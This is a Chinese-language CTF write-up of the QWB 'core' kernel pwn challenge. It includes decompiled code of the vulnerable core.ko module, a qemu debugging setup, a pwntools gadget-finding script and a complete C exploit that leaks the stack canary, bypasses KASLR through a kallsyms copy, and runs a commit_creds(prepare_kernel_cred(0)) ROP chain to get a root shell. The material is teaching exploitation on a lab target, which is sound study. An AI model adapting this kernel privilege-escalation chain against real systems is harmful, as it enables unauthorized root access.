








# qwb-core

比较经典的一道入门题目，这边说一下做题的心路历程

## 信息搜集

首先解决的应该是查看题目的各种参数

```shell
qemu-system-x86_64 \
-m 256M \
-kernel ./bzImage \
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \
```

这里的 start.sh 脚本开了 kaslr 

使用此选项后，每次系统启动时，内核代码在内存中的位置都是随机的，如果想要调用到内核上的代码段，我们可能需要泄露指针来计算当前内核的基地址

[Linux Kernel 中的保护机制和攻击方法 - wjh's blog (wjhwjhn.com)](https://blog.wjhwjhn.com/archives/829/)

解包文件系统进行观察



想必图中的 core.ko 就是我们需要调试的模块，接着查看 init 脚本

```shell
#!/bin/sh
mount -t proc proc /proc
mount -t sysfs sysfs /sys
mount -t devtmpfs none /dev
/sbin/mdev -s
mkdir -p /dev/pts
mount -vt devpts -o gid=4,mode=620 none /dev/pts
chmod 666 /dev/ptmx
cat /proc/kallsyms > /tmp/kallsyms
echo 1 > /proc/sys/kernel/kptr_restrict
echo 1 > /proc/sys/kernel/dmesg_restrict
ifconfig eth0 up
udhcpc -i eth0
ifconfig eth0 10.0.2.15 netmask 255.255.255.0
route add default gw 10.0.2.2 
insmod /core.ko

poweroff -d 2000 -f &
setsid /bin/cttyhack setuidgid 1000 /bin/sh
echo 'sh end!\n'
umount /proc
umount /sys

poweroff -d 0  -f
```

```shell
insmod /core.ko
```

挂载模块

其中有一行

```shell
cat /proc/kallsyms > /tmp/kallsyms
```

kallsyms包含内核中所有导出的符号表，这里记录了函数的真实地址，因此要绕过 kaslr ，可以通过读取 tmp目录下的 kallsyms 来获得内核基地址等等，而 proc 目录下的 kallsyms 在非 root 状态下是读不了地址的





上图是分别读 proc 和 tmp 目录下 kallsyms 得到的结果，而导致这种情况的原因

```shell
echo 1 > /proc/sys/kernel/kptr_restrict
echo 1 > /proc/sys/kernel/dmesg_restrict
```

禁止查看 kallsyms 和内核日志

## 发现漏洞



接着对 core.ko 模块进行分析，程序非常简单

core_ioctl

```c
__int64 __fastcall core_ioctl(__int64 fd, int choice, __int64 arg)
{
  switch ( choice )
  {
    case 0x6677889B:
      core_read(arg);
      break;
    case 0x6677889C:
      printk(&unk_2CD);
      offset = arg;
      break;
    case 0x6677889A:
      printk(&unk_2B3);
      core_copy_func(arg);
      break;
  }
  return 0LL;
}
```

> 通过第二个参数来控制流程，其中选项二就直接在外边了，可以自己设置一个全局变量 offset  的数值

core_read

```c
unsigned __int64 __fastcall core_read(__int64 ptr)
{
  char *v2; // rdi
  __int64 i; // rcx
  unsigned __int64 result; // rax
  char buf[64]; // [rsp+0h] [rbp-50h] BYREF
  unsigned __int64 v6; // [rsp+40h] [rbp-10h]

  v6 = __readgsqword(0x28u);
  printk(&unk_25B);
  printk(&unk_275);
  v2 = buf;
  for ( i = 0x10LL; i; --i )
  {
    *(_DWORD *)v2 = 0;
    v2 += 4;
  }
  strcpy(buf, "Welcome to the QWB CTF challenge.\n");
  result = copy_to_user(ptr, &buf[offset], 0x40LL);
  if ( !result )
    return __readgsqword(0x28u) ^ v6;
  __asm { swapgs }
  return result;
}
```

> 这里使用了 copy_to_user 可以拷贝到用户传入的指针中，其中 buf 通过 offset 索引来拷贝内容到用户指针

core_copy_func

```c
__int64 __fastcall core_copy_func(__int64 size)
{
  __int64 result; // rax
  _QWORD buf[10]; // [rsp+0h] [rbp-50h] BYREF

  buf[8] = __readgsqword(0x28u);
  printk(&unk_215);
  if ( size > 0x3F )
  {
    printk(&unk_2A1);
    return 0xFFFFFFFFLL;
  }
  else
  {
    result = 0LL;
    qmemcpy(buf, &name, (unsigned __int16)size);
  }
  return result;
}
```

> 函数参数 size 为 int 类型，而 qmemcpy 的 size 转为了无符号数，那么可以实现溢出，从全局变量 name 中拷贝到栈上

core_write

```c
__int64 __fastcall core_write(__int64 fd, __int64 buf, unsigned __int64 size)
{
  printk(&unk_215);
  if ( size <= 0x800 && !copy_from_user(&name, buf, size) )
    return (unsigned int)size;
  printk(&unk_230);
  return 0xFFFFFFF2LL;
}
```

> 这里 write 也是直接将用户的数据拷贝到一个 name 全局变量

上面就是所有会用到的函数

综合上面的条件可以得到如下信息

1. 可以通过拷贝实现栈溢出
2. offset 可控，可以通过栈上的 buf 泄露 canary
3. 可以通过读取 kallsyms 得到所需要的函数地址

## 调试方法

那么一个内核该如何调试呢，我们想要调试的是core.ko，那么总需要先知道其基地址才能把断点下进去吧，通过请教教正涵师傅，得到了一个比较完整的调试流程

先弄一个将exp编译和打包并运行的脚本

boot.sh启动脚本

```shell
gcc exp.c -static -o ./fs/exp
# sudo chmod a+x c.sh
# ./c.sh
cd fs
find . | cpio -o --format=newc > ../rootfs.cpio
cd ..

qemu-system-x86_64 \
-m 256M \
-kernel ./bzImage \
-initrd  ./rootfs.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet noaslr" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \
```

这里需要将 kaslr 关闭，之后，修改文件目录下的 init 脚本

```shell
#!/bin/sh
mount -t proc proc /proc
mount -t sysfs sysfs /sys
mount -t devtmpfs none /dev
/sbin/mdev -s
mkdir -p /dev/pts
mount -vt devpts -o gid=4,mode=620 none /dev/pts
chmod 666 /dev/ptmx
cat /proc/kallsyms > /tmp/kallsyms
echo 1 > /proc/sys/kernel/kptr_restrict
echo 1 > /proc/sys/kernel/dmesg_restrict
ifconfig eth0 up
udhcpc -i eth0
ifconfig eth0 10.0.2.15 netmask 255.255.255.0
route add default gw 10.0.2.2 
insmod /core.ko

poweroff -d 2000 -f &
setsid /bin/cttyhack setuidgid 0 /bin/sh
echo 'sh end!\n'
umount /proc
umount /sys

poweroff -d 0  -f
```

这里修改了两个地方，poweroff 和 setuidgid 分别是自动关闭的时间和 获取内核的 root 权限，从而方便调试，因为如果想查看内核挂载 core.ko 的地址是需要 root 权限的

通过运行脚本启动内核后，查看 core.ko 的地址



随后在另一个终端开启 gdb 调试



连上去后就可以直接下断点了

也可以通过如下命令设置一下偏移，不过我直接下断点也没出现过问题，下好断点后 c 就可以继续执行

```shell
add-symbol-file core.ko  0xffffffffc030c000
```



随后回到那个终端，执行exp就可以达到断点位置

## 漏洞利用

前面介绍了漏洞点和调试方法，接下来开始漏洞利用，首先是泄露 canary 地址

通过 open 打开设备后，iotcl 按着条件来即可

```c
int fd = open("/proc/core" , O_RDWR);

ioctl(fd ,0x6677889c , 0x40 );
ioctl(fd ,0x6677889b , buf );
canary = *(size_t *)(buf);
info("canary" ,canary);
```

然后是重中之重的rop环节，内核的rop链构造需要首先保存现场，随后在rop结束后返回到用户态 恢复现场，而在rop的过程中需要执行一个嵌套调用 `commit_creds(prepare_kernel_cred(0)) `

那么我们至少需要如下 gadget，这些gadget可以在 vmlinux 里找到

```python
pop rdi ;ret;
mov rdi ,rax;ret;
```

然而这里边没有第二个 gadget，但存在如下 gadget

```python
mov rdi ,rax;jmp rdx;
```

因此还需要控制一下 rdx

```python
pop rdx ;ret;
```

所以有如下rop链，先通过调用 prepare_kernel_cred 函数得到 rax ，之后控制 rdx 为 commit_creds函数地址， 最后将 rax 给到 rdi 控制 commit_creds 参数最后调用之

```python
pop_rdi_ret
0
prepare_kernel_cred
pop_rdx_ret
commit_creds
mov_rdi_rax_jmp_rdx
```

之后就是恢复现场的操作，因此至少需要如下gadget

```python
pop rdi ;ret;
mov rdi ,rax;jmp rdx;
pop rdx ;ret;
swapgs; popfq; ret;
iretq; ret;
```

个人比较习惯 python ，通过 python 找一下 gadget 和关键函数

```python
from pwn import *

context.update( os = 'linux', arch = 'amd64',timeout = 1)
elf = ELF('./vmlinux')

offset = 0xffffffff81000000

commit_creds = elf.sym['commit_creds'] - offset
prepare_kernel_cred = elf.sym['prepare_kernel_cred'] - offset
pop_rdi_ret = elf.search(asm("pop rdi;ret")).next()- offset
pop_rdx_ret = elf.search(asm("pop rdx;ret")).next()- offset
pop_rcx_ret = elf.search(asm("pop rcx;ret")).next()- offset

mov_rdi_rax_jmp_rcx = elf.search(asm("mov rdi, rax; jmp rcx;")).next()- offset
mov_rdi_rax_jmp_rdx = elf.search(asm("mov rdi, rax; jmp rdx;")).next()- offset

swapgs_popfq_ret  = elf.search(asm("swapgs; popfq; ret")).next()- offset
iretq_ret = elf.search(asm("iretq; ret;")).next()- offset

print("size_t commit_creds = " +  hex(commit_creds) + ";")
print("size_t prepare_kernel_cred = " +   hex(prepare_kernel_cred) + ";")
print("size_t pop_rdi_ret = " +   hex(pop_rdi_ret) + ";")
print( "size_t pop_rdx_ret = " +  hex(pop_rdx_ret) + ";")
print("size_t pop_rcx_ret = " +   hex(pop_rcx_ret) + ";")
print("size_t mov_rdi_rax_jmp_rcx = " +   hex(mov_rdi_rax_jmp_rcx) + ";")
print("size_t mov_rdi_rax_jmp_rdx = " +   hex(mov_rdi_rax_jmp_rdx) + ";")

print( "size_t swapgs_popfq_ret = " +  hex(swapgs_popfq_ret) + ";")
print("size_t iretq_ret = " +   hex(iretq_ret) + ";")
```

这个python 脚本应该可以重复使用吧 (大概)

我们通过 vmlinux 得到的实际上是有带基地址的，这里的基地址就是 0xffffffff81000000 我们，挨个减去得到偏移，当然也可以不减去，反正之后也是通过偏移计算真正gadget地址，加上多少都不影响

之后是泄露 kernel 的基地址，这里可以直接读取 kallsyms 得到真实地址，通过找到 commit_creds 的真实地址 减去偏移得到 基地址，随后就可以得到各个gadget的真实地址，相必这些做过 ret2libc 的都很熟悉

最后保存现场，执行rop，恢复现场就大工告成了，断点下在 ret 位置，可以看到已经开始执行 rop 了



## 利用脚本

其实在调试的过程中也是踩了不少坑，调了整整一天，只是在文中没有提及才显得比较轻松罢了

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

size_t commit_creds = 0x9c8e0;

size_t pop_rdi_ret = 0xb2f;
size_t pop_rdx_ret = 0xa0f49;
size_t pop_rcx_ret = 0x21e53;

size_t mov_rdi_rax_jmp_rcx = 0x1ae978;
size_t mov_rdi_rax_jmp_rdx = 0x6a6d2;

size_t swapgs_popfq_ret = 0xa012da;
size_t iretq_ret = 0x50ac2;

size_t prepare_kernel_cred = 0x9cce0;
size_t vmlinux_base = 0;
size_t user_cs, user_ss, user_rflags, user_sp;

void info(char *s , size_t address ){
    if (address) printf("\033[32m\033[1m[Info] %s : \033[0m%#lx\n", s, address);
    else printf("\033[32m\033[1m[Info] %s \033[0m\n", s);
}

void error(char *s){
    printf("\033[31m\033[1m[Error] %s\n\033[0m" , s);
    exit(1);
}

void shell(){
    if (getuid()){
        error("Failed to get root");
        exit(0);
    }
    info("Get root!",0);
    execl("/bin/sh","sh",NULL);
}

void save_status(){
    __asm__(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    info("status saved!",0);
}

void get_address(){
    FILE* fd = fopen("/tmp/kallsyms", "r");
    if(!fd){
        error("Cannot open file kallsyms");
    }
    char buf[0x100];
    size_t leak = 0;

    while(fgets(buf, 0x30, fd)){
        if (strstr(buf , "commit_creds")){
            sscanf(buf , "%lx" , &leak);
            vmlinux_base = leak - commit_creds;
            info("get vmlinux base" , 0);
            return;
        }
    }
}

void set_offset(){
    commit_creds += vmlinux_base;
    prepare_kernel_cred += vmlinux_base;

    pop_rdi_ret += vmlinux_base;
    pop_rdx_ret += vmlinux_base;
    pop_rcx_ret += vmlinux_base;

    mov_rdi_rax_jmp_rcx += vmlinux_base;
    mov_rdi_rax_jmp_rdx += vmlinux_base;

    swapgs_popfq_ret += vmlinux_base;
    iretq_ret += vmlinux_base;

    info("commit_creds" , commit_creds);
    info("prepare_kernel_cred" , prepare_kernel_cred);
}

int main(){
    
    char buf[0x40] = {0};
    size_t rop[0x600] = {0};
    size_t canary ;
    int i = 0x40/8;

    int fd = open("/proc/core" , O_RDWR);

    ioctl(fd ,0x6677889c , 0x40 );
    ioctl(fd ,0x6677889b , buf );
    canary = *(size_t *)(buf);
    info("canary" ,canary);

    get_address();
    set_offset();
    save_status();

    //commit_creads(prepare_kernel_cred(0));
    rop[i++] = canary;
    rop[i++] = 0;
    rop[i++] = pop_rdi_ret;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;
    rop[i++] = pop_rdx_ret;
    rop[i++] = commit_creds;
    rop[i++] = mov_rdi_rax_jmp_rdx;


    rop[i++] = swapgs_popfq_ret;
    rop[i++] = 0;
    rop[i++] = iretq_ret;
    rop[i++] = (size_t )shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd , rop , 0x800);

    ioctl(fd , 0x6677889A ,  0xffffffffffff0000|0x100);
    error("Failed to get root");

    // return 0;

}
```

